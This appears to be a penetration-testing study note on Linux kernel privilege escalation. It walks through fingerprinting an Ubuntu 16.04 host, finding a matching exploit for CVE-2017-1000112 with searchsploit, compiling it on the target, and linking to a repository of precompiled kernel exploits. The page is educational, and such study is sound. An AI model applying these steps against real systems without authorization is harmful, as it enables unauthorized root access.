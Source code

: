 ```yaml
---
description: >-
  Kernel Vulnerabilities 
title: Kernel Vulnerabilities              # Add title here
date: 2022-11-11 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Kernel Vulnerabilities]                     # Change Templates to Writeup
tags: [file transfer, kernel vulnerabilities, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Scenario: CVE-2017-1000112 

Kernel exploits are an excellent way to escalate privileges, but success may depend on matching not only the target's kernel version but also the operating system flavor, including Debian, Redhat, Gentoo, etc.

To demonstrate this attack vector, we will first gather information about our target by inspecting the /etc/issue file.  This is a system text file that contains a message or system identification to be printed before the login prompt on Linux machines.

```bash
n00b@victim:~$ cat /etc/issue
Ubuntu 16.04.3 LTS \n \l
```

Next, we will inspect the kernel version and system architecture using standard system commands:

```bash
n00b@victim:~$ uname -r 
4.8.0-58-generic
n00b@victim:~$ arch 
x86_64
```

Our target system appears to be running Ubuntu 16.04.3 LTS (kernel 4.8.0-58-generic) on the x86_64 architecture. Armed with this information, we can use searchsploit on our local Kali system to find kernel exploits matching the target version.

```bash
kali@kali:~$ searchsploit linux kernel ubuntu 16.04
-------------------------------------------------------- -----------------------------
 Exploit Title                                          |  Path 
-------------------------------------------------------- -----------------------------
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04 | exploits/linux_x86-64/local/
Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2/17.0 | exploits/linux_x86/local/422
Linux Kernel (Ubuntu 16.04) - Reference Count Overflow  | exploits/linux/dos/39773.txt
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege | exploits/linux/local/40759.r
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PA | exploits/linux_x86-64/local/
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter ta | exploits/linux_x86-64/local/
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' b  | exploits/linux/local/39772.t
Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPL | exploits/linux/local/40489.t
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.0 | exploits/linux/local/43418.c
---------------------------------------------------------- ---------------------------
```

### Compiling C/C++ Code on Linux

We can use gcc on Linux to compile our exploit. Keep in mind that when compiling code, we must match the architecture of our target. This is especially important in situations where the target machine does not have a compiler and we are forced to compile the exploit on our attacking machine or a sandboxed environment that replicates the target OS and architecture.

In this example, we are fortunate that the target machine has a working compiler, but this is rare in the field.

Let's copy the exploit file to the target and compile it, passing only the source code file and -o to specify the output filename (exploit):

```bash
n00b@victim:~$ gcc 43418.c -o exploit
n00b@victim:~$ ls -lah exploit
total 36K
-rwxr-xr-x  1 kali kali  28K Jan 27 04:04 exploit
```

After compiling the exploit on our target machine, we can run it and use whoami to check our privilege level.

### Kernel Exploits

[Kernel CVEs](https://www.linuxkernelcves.com/cves)
[Git repo with compiled kernel exploits](https://github.com/bwbwbwbw/linux-exploit-binaries)